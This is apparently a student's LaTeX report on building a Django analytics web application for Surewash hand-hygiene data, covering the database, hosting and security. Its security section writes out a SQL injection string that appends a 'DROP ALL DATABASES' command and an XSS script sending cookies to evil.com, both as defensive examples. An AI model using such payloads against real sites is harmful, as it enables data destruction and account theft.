\part{Data Analytics Suite}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%   Data Analytics Suite                                                %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Motivation and background}
A Surewash device aims to teach people how to wash their hands according to the World Health Organisation (\cite{who_handhygiene}). This method divides washing one's hands into six distinct stages, as shown in Figure \ref{fig:who_poses} (the NHS in the UK and HSE in Ireland includes a seventh), these stages will hereafter be referred to as poses.
\begin{figure}[h]
    \centering
    
\includegraphics[width=250px]{../img/who_poses.png}
    \caption[]{WHO hand hygiene stages\footnotemark}
    \label{fig:who_poses}
\end{figure}

\footnotetext{Obtained from: https://apps.who.int/iris/bitstream/handle/10665/44102/9789241597906\_eng.pdf;sequence=1 (accessed: 30-07-2019)}

At the time of writing, Surewash has existed for eight years, and they have seen steady growth in that time, with customers around the world. It is clear that the idea of using computer vision to train people how to wash their hands has been a success from a commercial context. Success, however, can be measured in different ways. If one were to assert the following, "Surewash is a successful company, therefore their products are effective", this would be committing the formal fallacy of Affirming the consequent. In simpler terms, just because people are buying Surewash products does not necessarily mean that said products do what they claim to, or that people use them in the first place. There are two questions that must be asked here. Firstly, is the general idea of using a camera and computer system to train people how to wash their hands effective. Secondly, is Surewash's implementation of this idea effective? At a first glance, it would appear that these two issues are mutually exclusive, i.e., if it's found that the general idea this method works, then Surewash's products must work. I would argue that this is not the case, to argue by using a hypothetical situation, people who use a Surewash machine for hand hygiene training may well learn how to wash their hands, but the machine itself may be difficult to use and require technical knowhow, so the general population may not gain the benefits of this machine because the barrier of entry with regards to using the machine is too high.

Small scale studies have been performed on the effectiveness of using a computer vision system to evaluate hand hygiene, such as \cite{ghosh2011impact} and \cite{ghosh2013pilot}, but the problem with these studies is that they used relatively small sample sizes. These studies also do not indicate if Surewash's implementation is successful. On the other hand, Surewash has a database covering many hospitals, over many years, covering different countries. Crucially, since Surewash is the only company that offers a product like this (since the process has a patent (\cite{handwashpatentglanta})), this is the first time that one can see how effective Surewash's products are, given the existence of several years of data. The aim therefore of this project is to evaluate how effective Surewash is as a service, distinct from evaluating how effective the concept of using a computer vision system is to train people how to wash their hands.

The aim of this application has now been defined: to evaluate how effective Surewash is as a service. This question cannot be summarised in a holistic answer however. For example, if, say there have been ten thousands uses over a period of a year in a particular hospital, that gives no indication of the actual engagement of a product. On the other hand, if people have a `good engagement' of Surewash, it doesn't take into account the amount of people who used Surewash

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Underlying concepts                                                   %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Underlying concepts}
    \subsection{Definitions}
        \subsubsection{Relational Database}
        A database is an organised collection of data that can be electronically accessed. A Relational Database is a database that stores data in the form of a relational model, as proposed by \cite{Codd}.
    \subsection{Programming languages}
        \subsubsection{Python}
        Python is an interpreted, high-level, general-purpose language. It is ubiquitous in areas such as data science. It is known for being easy to learn, having an extensive standard library, as well as a strong community for support and third party libraries.
        \subsubsection{SQL}
        SQL, short for Structured Query Language is a domain-specific programming language designed specifically for querying and manipulating databases. It comes in many dialects, this project uses the mySQL variant.
        \subsubsection{HTML} 
        HTML, short for Hypertext Markup language is not a programming language, but a markup language. It is a core web technology used to describe the structure of webpage. It is based on SGML.
        \subsubsection{CSS}
        CSS, short for Cascading Style Sheets is a style language used to describe the presentation of a HTML file.
        \subsubsection{JavaScript}
        Frequently shortened to JS, JavaScript is an interpreted, general-purpose programming language that is supported by all modern web browsers.
    \subsection{Programming environments}
        \subsubsection{Visual Studio Code}
        Visual Studio Code is an open source, free code editor developed by Microsoft. It is not an IDE, but it provides many features of one, such as code highlighting, code completion, and snippets.
        \subsubsection{Vim}
        Vim, short for Vi Improved, based on Vi, is a visual code editor (used in a command line interface). It can do everything that Visual Studio Code can do, but it has no support for a mouse, therefore all interaction is with a keyboard. The learning curve is substantial in comparison to a GUI-based text editor, but it is necessary to use Vim for this project since the server that this project runs on does not have a GUI.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Sources                                                               %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Sources}
    \subsection{The devices} Surewash has three core products, the {\slshape ELITE}, {\slshape GO}, and {\slshape Pocket}. The {\slshape ELITE} and {\slshape GO} are equivalent devices from a data analytics perspective. They both run Windows, they both use the same camera, and run on the same computer vision algorithm. The differences mainly lie with the form-factor of the hardware. In contrast, the idea of {\slshape Pocket} is quite different. Whereas Surewash designs both hardware and software of the {\slshape ELITE} and {\slshape GO}, {\slshape Pocket} runs as a mobile app on iOS and Android. This is hugely consequential, since it is only feasible to test the software on a small amount of devices, and so data is much less predictable. It also uses the camera that comes with the phone, which means that the algorithm only has access to an RGB feed, in contrast, the {\slshape ELITE} and {\slshape GO} also have access to a depth feed (a matrix of pixels showing depth), which can give more accurate results. This also presents opportunities for analysing data between different devices, and seeing how Surewash is used on different devices. There has already been anecdotal evidence from customers that the performance of {\slshape Pocket} is variable between devices.
    \subsection{The database}
    Surewash has a central server, which hosts a relational database (mySQL). Within this database, there are five key tables that are of interest for analysis: {\slshape User Records}, {\slshape User Profiles}, {\slshape Roles}, and {\slshape Customer}. For Surewash Pocket, it has a separate database, the only table of interest is {\slshape Hand Hygiene Session}. The following is a description of what each table contains:
        \subsubsection{Table: User Records} Every time someone washes their hands with a Surewash device (hereafter a {\slshape session}), a new tuple is created in this table, which among other things, describes the following.
            \paragraph{MillisecondsP1\_time - MillisecondsP7\_time} How long was spent on a particular pose (one of the seven possible stages of washing hands), in milliseconds.
            \paragraph{P1\_passed - P7\_passed} A boolean value saying whether a particular pose was passed or not.
            \paragraph{P1\_difficult - P7\_difficult} A boolean value saying whether the user had difficulty with a particular pose.
            \paragraph{P1\_failed - P7\_failed} A boolean value saying whether a particular pose was failed or not.
            \paragraph{DateTimeUTCSessionStart} What date and time (UTC) the session was started at.
            \paragraph{CustomerID} is a foreign key relating this table to {\slshape Customer}.
            \paragraph{UserID} is a foreign key relating this table to User {\slshape User Profiles}.
            \paragraph{DifficultyLevel} The difficulty level chosen by a user.
        \subsubsection{Table: User Profiles} Each staff member in a hospital is associated with a tuple in this table. Each user profile can have many user records associated with it. The columns of interest are as follows:
            \paragraph{id} Can be used to select all {\slshape sessions} from {\slshape User Profiles} that this person has completed.
            \paragraph{RoleID} Each staff member will have a type of role (such as 'Nurse', 'Doctor', etc.), this is a foreign key related to {\slshape RoleID} in {\slshape Roles}.
        \subsubsection{Table: Roles}
            \paragraph{RoleID} Mentioned above, each staff member will have a type of role (such as 'Nurse', 'Doctor', etc.).
        \subsubsection{Table: Customer} This stores headline information about a particular hospital.
            \paragraph{id} The primary key, this can be used to select all staff members, or user records related to this hospital.
            \paragraph{country} This shows the country that the hospital is located in, useful for dividing results by different countries.
            \paragraph{site} The name of the hospital.
        \subsubsection{Table: Hand Hygiene Session} This is similar to the User Records table, albeit with fewer columns.
            \paragraph{deviceType} The model of the device, which generally has the syntax of the manufacturer, followed by the model. This can therefore be used to select results based on a particular manufacturer, or individual models.
            \paragraph{startUTCTime} The time that a session was started, useful for seeing how the app has been used over time.
            \paragraph{pose001Time - pose006Time} How long was spent on a particular pose, in milliseconds.
            \paragraph{pose001Passed - pose006Passed} A boolean value saying whether a particular pose was passed or not.
            \paragraph{softwareVersion} The version of Surewash Pocket being used.
            \paragraph{difficultyLevel} The level of difficulty chosen, ranging from {\slshape Level 0} to {\slshape Level 5}.
        \subsubsection{Challenges with the database} There are a few peculiarities and workarounds in this database which require special attention.
            \paragraph{Pose 5 and Pose 6 switched} A bug existed early in the development of the Surewash software, where the 5th and 6th pose of the WHO method were in the wrong order. This was also reflected in database. The workaround that was chosen was to add a boolean column called {\slshape Pose5and6Switched}, so this needs to be checked. If it is false, then all values associated with the two respective poses need to be swapped.
            \paragraph{Pose 7} Although the WHO does not specify this, some hospitals require a seventh pose in their hand hygiene regimen where the wrists are also washed. A boolean value called {\slshape Pose7Enabled} needs to be evaluated therefore to see if values relevant to Pose 7 need to be evaluated.
            \paragraph{Pose 4} Depending on the hospital, some will specify that one needs to complete Pose 4 twice (by flipping hands), or once. There is a boolean value called {\slshape Pose4TwoHanded}, which if true means that all time values related to Pose 4 will be twice as long, and therefore if one is doing an analysis of all hospitals, the value for Pose 4 will either need to be doubles or halved for the relevant cases.
            \paragraph{Difficulty level} The Surewash software has difficulty levels ranging from zero to five, all records before a certain version did not have a concept of levels, so this will be {\slshape Level 0} for all of those records. There are also occasions were a Surewash product was used in a clinical trial, the difficulty level will have a different value. A different algorithm was used, therefore all tuples fitting this criterion should be ignored.
            \paragraph{Location data on {\slshape Pocket}} A notable omission from the {\slshape Pocket} database is something that can indicate where in the world a particular session was performed, which means that different countries and regions cannot be compared, which is a shortcoming in my opinion. This omission was deliberate, since an app has to formally request to the user to be able to use location data. In the age of increased scrutiny on privacy, and since it's not necessary for the functionality of the app to collect this data, a decision was made to not collect this data.

            For the future, there is potentially a workaround to this. All session information from {\slshape Pocket} is automatically submitted to a Surewash server, therefore within the server, the IP address of the phone could be recorded and the location could be obtained from the IP address. This would not be entirely accurate, but it would be good enough for the purposes of this exercise.
        % \subsubsection{Relational mappings}
        % The aforementioned tables have the following relations:
        % % \begin{tikzpicture}[auto,node distance=1.5cm]
        % %     % Create an entity with ID node1, label "Fancy Node 1".
        % %     % Default for children (ie. attributes) is to be a tree "growing up"
        % %     % and having a distance of 3cm.
        % %     %
        % %     % 2 of these attributes do so, the 3rd's positioning is overridden.
        % %     \node[entity] (node1) {Fancy Node 1}
        % %         [grow=up,sibling distance=3cm]
        % %         child {node[attribute] {Attribute 1}}
        % %         child {node[attribute] {Attribute 2}}
        % %         child[grow=left,level distance=3cm] {node[attribute] {Attribute 3}};
        % %     % Now place a relation (ID=rel1)
        % %     \node[relationship] (rel1) [below right = of node1] {Relation 1};
        % %     % Now the 2nd entity (ID=rel2)
        % %     \node[entity] (node2) [above right = of rel1]	{Fancy Node 2};
        % %     % Draw an edge between rel1 and node1; rel1 and node2
        % %     \path (rel1) edge node {1-\(m\)} (node1)
        % %         edge	 node {\(n\)-\(m\)}	(node2);
        % % \end{tikzpicture}
        % \begin{center}
        % \begin{tikzpicture}[auto,node distance=1.5cm]
        %     \node[entity] (node1) {User Records} [sibling distance=3cm];
        %     \node[relationship] (rel1) [ right = of node1] {N - 1};
        %     \node[entity] (node2) [right = of rel1]	{User Profiles};
        %     \path (rel1) edge node {} (node1)
        %         edge	 node {}	(node2);
        % \end{tikzpicture}

        % \begin{tikzpicture}[auto,node distance=1.5cm]
        %     \node[entity] (node1) {User Profiles} [sibling distance=3cm];
        %     \node[relationship] (rel1) [ right = of node1] {N - 1};
        %     \node[entity] (node2) [right = of rel1]	{Customer};
        %     \path (rel1) edge node {} (node1)
        %         edge	 node {}	(node2);
        % \end{tikzpicture}
        % \end{center}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% The application                                                       %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{The application}
The brief stated that this application was to be built for the web, so that it can be accessed by a web browser from the Internet. This implies that security should be at the forefront of the application, since it is accessible from the public Internet. The other implied constraint of this project is that it is built quickly. With these constraints in mind, the best approach is to use Django, which is a Python framework for building web applications. The added bonus of this is that the {\slshape SureWash.NET} product (a web application data analytics package for customers) was built using Django, so there is knowhow within the company as to best practice using this framework.
    \subsection{Security considerations}
    The core aim of this application is get real-time insights into Company data. This therefore means that the database needs to be accessed. The following known security practices and web vulnerabilities need to be considered.
        \paragraph{Database access} This website need only access a subset of the database, and it does not need to perform any write operations, therefore a new user for the database was created with only the required permissions granted.
        \paragraph{SQL injection attack}
        SQL injection attacks are a common vulnerability in web applications (\cite{halfond2006classification}). Since database access is core to the functionality of the website, care needs to be taken. The key avenues of attack that need to be considered for this application are as follows: {\slshape Injection through user input} where SQL code is added to a HTTP POST request and inadvertently executed, {\slshape Injection through cookies} similar to {\slshape Injection through user input}, and {\slshape Second-order injection} where SQL code is inadvertently stored somewhere in a Database tuple and executed later.

        Django prevents these forms of attacks mentioned by using the concept of {\slshape Prepared Statements}, or {\slshape Query Parameterisation}, which is an accepted way to prevent such attacks (\cite{amirtahmasebi2009survey}). In a `raw' SQL query, no distinction is made between SQL keywords, and strings. So in a statement such as this:
        \begin{lstlisting}[style=SQLStyle]
SELECT * FROM UserRecords2 WHERE WebCustomerID = 23\end{lstlisting}
        no distinction is made between keywords such as SELECT and FROM, and a string, 23. If therefore, a form on the website allowed a user to enter WebCustomerID, they can select all User Records related to that WebCustomerID, but they could also type something like {\slshape `\' \space ; DROP ALL DATABASES;--'}, then this would be interpreted by the database as follows:

        \begin{lstlisting}[style=SQLStyle]
SELECT * FROM UserRecords2 WHERE WebCustomerID = ''; 
DROP ALL DATABASES;
--'\end{lstlisting}

        It would see two separate commands, first find all records where WebCustomerID is an empty string, then erase everything. Clearly, this is a problem. Django's solution is to escape any string values in a syntax similar to the following:

        \begin{lstlisting}[style=SQLStyle]
`SELECT * FROM UserRecords2 WHERE WebCustomerID = \%s', id\end{lstlisting}

        The id value is therefore treated as a string, and the database will know not to execute the statement.

        \paragraph{Cross Site Scripting (XSS)}
        This works by a user injecting code into the website that is later executed inadvertently (\cite{di2004identifying}). As an example, in a newspaper website, a user could post comments, but within the comment, they might put something like the following in:
        \begin{lstlisting}[style=HTMLStyle]
<script>
    location.URL=`http://www.evil.com/' + document.cookie
</script>\end{lstlisting}
        Instead of the browser treating the above text as HTML markup, it would execute it as JavaScript code, sending the user's cookie to a third party, and from there, the hacker could access their account on that website.

        Django prevents this form of attack by searching for specific keywords, such as the <script> tag and sanitises the input by removing dangerous characters and sequences.

        \paragraph{Cross Site Request Forgery (CSRF)}
        A lesser discussed web vulnerability where an unwanted action can be performed by a user by way of a malicious third party site by spoofing a HTTP POST request (\cite{zeller2008cross}). Django prevents this by requiring a pseudo-random value to be submitted with a form submission.

        It should be noted that the potential consequences of this web portal being subjected to a CSRF attack are not serious with this website, since it only acts as a read-only system. That being said, it is bad practice and unethical to knowingly leave an application vulnerable to such a vulnerability regardless.

        \paragraph{Brute Force}
        A simple but effective exploit, this simply involves trying to log in to the website with any amount of username/password combinations until one succeeds. Django does not come with any way of detecting or preventing such an attack. A common way to prevent this exploit in Django is to use a Django extension called {\slshape Django-Axes}. This extension provides the ability to blacklist IP addresses, as well as lock accounts. It also logs all login attempts, as well as whether they were successful (\cite{djangoaxes}). This application uses a policy where a user and ip address are locked out for twenty-four hours if a login attempt fails more than ten times. The particular semantics of this policy are arbitrary, however they can be changed easily if they are too strict, or not strict enough.

        \paragraph{Denial Of Service}
        This is where the server is burdened by requests from one client. This application is unlikely to be served with such an attack.

        \paragraph{Firewall}
        The server is available on the internet, and its intended use is for web services only, therefore all ports except 80 (for HTTP), and 443 (for SSL) are blocked from public access. Port 22, for SSH (through which the server is configured)can be access only through Surewash's IP.
    
    \subsection{Hosting and server configuration}
    A decision needs to be made as to where the application is being hosted. Surewash has a static IP address, so it could be hosted by a computer in-house, however, Amazon Web Services (AWS) is already used to host its {\slshape SureWash.NET} service, as well as the API server for {\slshape Pocket}. Amazon Web Services provides the ability to have a remote server, either in a virtual instance (on a hypervisor), or by having a dedicated physical server

    Ubuntu is the chosen operating system for the web server to run on, since it is widely used, and there is plenty of free help available. It is running on {\slshape x86-64} architecture since this is common practice. Django does not come with a production-safe HTTP server, so Apache HTTP Server is used for this purpose.

    \subsection{Development Workflow and testing}
    Django has an inbuilt development server which can be used to test the web application locally on the computer it is being developed from. If the development server is started on the computer the application is being developed from, the website can be access by opening a web browser on the same computer and typing in {\slshape http://localhost:PORT}, where {\slshape PORT} is the port chosen to host the development server on, which is 8000 by default.

    If the website works on the local server, the next step in testing is to try it on the AWS server. The code needs to be transferred over, there are many ways of achieving this, such as FTP, but GIT (\cite{hamano2005git}) was the chosen method. Surewash has a GitHub (an online Git service) subscription, so the codebase can be hosted there privately. The code can then be pushed to the server by logging into it via SSH and performing the relevant GIT commands there.

    An important consideration when using this kind of workflow is database access, which is independent of this entire project. It would be unnecessary to access the live database while developing since it would put an unnecessary burden on the server when customers are also trying to access it. The solution to this is to make a snapshot of the server and keep a local copy on the computer that is being used to develop the application. This also means though that the server code and local development code will have to be different to reflect the different server addresses and username/passwords for the database. The solution used in this project is to have a file called {\slshape local\_settings.py} that contains the relevant database details, and add this file to .gitignore. This has the added benefit of not storing database passwords on the Git repository.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Algorithms                                                            %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% \section{Algorithms}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Learning outcomes                                                     %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Conclusion}
    \subsection{Learning Outcomes}
        \subsubsection{Programme design}
            \subsubsection{Python}
            While I had used Python in college, it was mostly working with existing code, where only minor changes had to be made. This project was the first time where I had to write large amounts of code in Python, which meant that I had to gain a deeper understanding of how programming in it works.
            \subsubsection{SQL}
            This was the first time where I had to interact with an existing database, and come up with optimised SQL queries. While it's trivial to get data from a database, I had to ensure that my queries were optimised since this is a server accessed by customers, and if my queries took long periods of time to run, I could potentially affect the experience of Surewash customers. I also learned how to use database security, such as granting views and privileges.
        \subsubsection{Presentation}
            \paragraph{Oral presentation}
            I improved my skills in oral presentation by giving a non-technical presentation of the results given by the data analytics suite, as well as a demonstration of the user interface.
            \paragraph{Documentation}
            I improved my skills in documentation by writing a manual describing the usage of the programme, as well as another manual which describes documents how the code works.
        \subsection{Other}
            \subsubsection{Amazon Web Services}
            I learned the very basics of AWS, such as how to setup a new server, and how to interact with this server using SSH and FTP. I also learned how to secure the server using a firewall.
            \subsubsection{Vim}
            I learned the basics of using Vim. Knowing how to use Vim is important since many computers do not have a graphical user interface, and while easier CLI text editors such as Nano exist, they are not as powerful or full-featured as Vim.
            \subsection{Web security}
            I learned about XSS attacks, CSRF attacks, and SQL injection attacks, what they are, how they work, and how to prevent them.
    % \subsection{Reflection}